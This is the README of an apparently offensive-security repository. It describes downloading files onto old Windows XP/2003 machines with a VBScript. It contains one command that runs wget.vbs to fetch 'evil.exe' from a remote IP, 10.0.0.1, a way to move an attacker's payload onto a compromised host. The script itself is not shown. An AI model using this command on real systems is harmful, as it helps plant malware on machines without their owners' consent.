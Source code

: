 # windows-filetransfer

This repository briefs about how to download files from an remote hosts using vbscript on windows xp and 2003.

# Downloading files
 We can run this (with cscript) to download files from our Remote Machine:
 
 ( C:\Users\hackme> cscript wget.vbs http://10.0.0.1/evil.exe evil.exe )
 
  Here evil.exe is a file we are trying to download to our windows machine

